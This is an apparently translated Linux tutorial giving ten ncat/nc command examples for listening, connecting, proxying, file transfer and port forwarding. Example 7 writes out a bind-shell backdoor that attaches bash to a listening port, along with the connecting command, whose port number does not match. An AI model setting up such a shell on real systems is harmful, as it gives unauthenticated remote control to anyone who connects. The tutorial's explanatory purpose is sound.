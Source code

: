 translating by lujun9972
10 useful ncat (nc) Command Examples for Linux Systems
======
 [![nc-ncat-command-examples-Linux-Systems](https://www.linuxtechi.com/wp-content/uploads/2017/12/nc-ncat-command-examples-Linux-Systems.jpg)][1] 

ncat or nc is networking utility with functionality similar to cat command but for network. It  is a general purpose CLI tool for reading, writing, redirecting data across a network. It is  designed to be a reliable back-end tool that can be used with scripts or other programs.  It’s also a great tool for network debugging, as it can create any kind of connect one can need.

ncat/nc can be a port scanning tool, or a security tool, or monitoring tool and is also a simple TCP proxy.  Since it has so many features, it is known as a network swiss army knife. It’s one of those tools that every System Admin should know & master.

In most of Debian distributions ‘nc’ is available and its package is automatically installed during installation. But in minimal CentOS 7 / RHEL 7 installation you will not find nc as a default package. You need to install using the following command.

```
[root@linuxtechi ~]# yum install nmap-ncat -y
```

System admins can use it audit their system security, they can use it find the ports that are opened & than secure them. Admins can also use it as a client for auditing web servers, telnet servers, mail servers etc, with ‘nc’ we can control every character sent & can also view the responses to sent queries.

We can also cause it to capture data being sent by client to understand what they are upto.

In this tutorial, we are going to learn about how to use ‘nc’ command with 10 examples,

#### Example: 1) Listen to inbound connections

Ncat can work in listen mode & we can listen for inbound connections on port number with option ‘l’. Complete command is,

$ ncat -l port_number

For example,

```
$ ncat -l 8080
```

Server will now start listening to port 8080 for inbound connections.

#### Example: 2) Connect to a remote system

To connect to a remote system with nc, we can use the following command,

$ ncat IP_address port_number

Let’s take an example,

```
$ ncat 192.168.1.100 80
```

Now a connection to server with IP address 192.168.1.100 will be made at port 80 & we can now send instructions to server. Like we can get the complete page content with

GET / HTTP/1.1

or get the page name,

GET / HTTP/1.1

or we can get banner for OS fingerprinting with the following,

HEAD / HTTP/1.1

This will tell what software is being used to run the web Server.

#### Example: 3) Connecting to UDP ports

By default , the nc utility makes connections only to TCP ports. But we can also make connections to UDP ports, for that we can use option ‘u’,

```
$ ncat -l -u 1234
```

Now our system will start listening a udp port ‘1234’, we can verify this using below netstat command,

```
$ netstat -tunlp | grep 1234
udp           0          0 0.0.0.0:1234                 0.0.0.0:*               17341/nc
udp6          0          0 :::1234                      :::*                    17341/nc
```

Let’s assume we want to send or test UDP port connectivity to a specific remote host, then use the following command,

$ ncat -v -u {host-ip} {udp-port}

example:

```
[root@localhost ~]# ncat -v -u 192.168.105.150 53
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53.
```

#### Example: 4) NC as chat tool

NC can also be used as chat tool, we can configure server to listen to a port & than can make connection to server from a remote machine on same port & start sending message. On server side, run

```
$ ncat -l 8080
```

On remote client machine, run

```
$ ncat 192.168.1.100 8080
```

Than start sending messages & they will be displayed on server terminal.

#### Example: 5) NC as a proxy

NC can also be used as a proxy with a simple command. Let’s take an example,

```
$ ncat -l 8080 | ncat 192.168.1.200 80
```

Now all the connections coming to our server on port 8080 will be automatically redirected to 192.168.1.200 server on port 80\. But since we are using a pipe, data can only be transferred & to be able to receive the data back, we need to create a two way pipe. Use the following commands to do so,

```
$ mkfifo 2way
$ ncat -l 8080 0<2way | ncat 192.168.1.200 80 1>2way
```

Now you will be able to send & receive data over nc proxy.

#### Example: 6) Copying Files using nc/ncat

NC can also be used to copy the files from one system to another, though it is not recommended & mostly all systems have ssh/scp installed by default. But none the less if you have come across a system with no ssh/scp, you can also use nc as last ditch effort.

Start with machine on which data is to be received & start nc is listener mode,

```
$ ncat -l  8080 > file.txt
```

Now on the machine from where data is to be copied, run the following command,

```
$ ncat 192.168.1.100 8080 --send-only < data.txt
```

Here, data.txt is the file that has to be sent. –send-only option will close the connection once the file has been copied. If not using this option, than we will have press ctrl+c to close the connection manually.

We can also copy entire disk partitions using this method, but it should be done with caution.

#### Example: 7) Create a backdoor via nc/nact

NC command can also be used to create backdoor to your systems & this technique is actually used by hackers a lot. We should know how it works in order to secure our system. To create a backdoor, the command is,

```
$ ncat -l 10000 -e /bin/bash
```

‘e‘ flag attaches a bash to port 10000\. Now a client can connect to port 10000 on server & will have complete access to our system via bash,

```
$ ncat 192.168.1.100 1000
```

#### Example: 8) Port forwarding via nc/ncat

We can also use NC for port forwarding with the help of option ‘c’ , syntax for accomplishing port forwarding is,

```
$ ncat -u -l  80 -c  'ncat -u -l 8080'
```

Now all the connections for port 80 will be forwarded to port 8080.

#### Example: 9) Set Connection timeouts

Listener mode in ncat will continue to run & would have to be terminated manually. But we can configure timeouts with option ‘w’,

```
$ ncat -w 10 192.168.1.100 8080
```

This will cause connection to be terminated in 10 seconds, but it can only be used on client side & not on server side.

#### Example: 10) Force server to stay up using -k option in ncat

When client disconnects from server, after sometime server also stops listening. But we can force server to stay connected & continuing port listening with option ‘k’. Run the following command,

```
$ ncat -l -k 8080
```

Now server will stay up, even if a connection from client is broken.

With this we end our tutorial, please feel free to ask any question regarding this article using the comment box below.

--------------------------------------------------------------------------------

via: https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/

作者：[Pradeep Kumar][a]
译者：[lujun9972](https://github.com/lujun9972)
校对：[校对者ID](https://github.com/校对者ID)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出

[a]:https://www.linuxtechi.com/author/pradeep/
[1]:https://www.linuxtechi.com/wp-content/uploads/2017/12/nc-ncat-command-examples-Linux-Systems.jpg
